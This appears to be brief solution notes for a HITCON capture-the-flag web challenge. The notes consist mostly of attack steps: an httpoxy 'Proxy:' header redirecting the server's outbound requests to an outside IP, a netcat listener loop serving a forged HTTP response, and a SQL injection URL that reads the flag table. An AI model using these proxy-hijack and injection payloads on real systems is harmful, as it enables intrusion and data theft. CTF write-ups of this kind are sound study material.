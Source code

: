 
-H "proxy:60.251.236.17:1337"

HTTP_proxy env

while true; do cat response | nc -l -p 1337 -v; done

'''
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html;charset=UTF-8

ok
'''

https://54.199.254.155/cgi-bin/?id=7'union select 1,(select * from flag)--

* hitcon{Did you know httpoxy.org?} 